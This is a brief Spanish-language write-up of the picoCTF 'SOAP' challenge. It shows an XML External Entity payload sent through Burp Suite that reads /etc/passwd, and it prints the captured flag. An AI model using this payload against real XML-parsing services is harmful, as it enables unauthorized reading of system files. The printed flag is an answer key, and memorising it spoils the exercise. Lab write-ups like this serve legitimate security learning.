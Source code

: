 
## Reto
SOAP

## Descripcion
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?

Additional details will be available after launching your challenge instance.

## Solucion
- al abrir el link solo aparece una pagina con 3 botones cada uno con envia una respuesta diferente
- Abro foxyproxy y burpsuite para ver las respuestas que me da
- una que entro a burpsuite y detengo el trafico lo mando al repeater y en Request pego lo siguiente:
```

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]> <data>
	<ID>
		&xxe;
	</ID>
</data>
```

- al enviarlo al servidor me regresa la respuesta donde encuentro la bandera:**picoCTF{XML_3xtern@l_3nt1t1ty_4dbeb2ed}**
<img width="1920" height="945" alt="image" src="https://github.com/user-attachments/assets/87077e01-dcc8-4b14-9122-ecab737d4177" />

## Notas
- la verdad que no entendi que estamos haciendo en este desafio

## Referencias
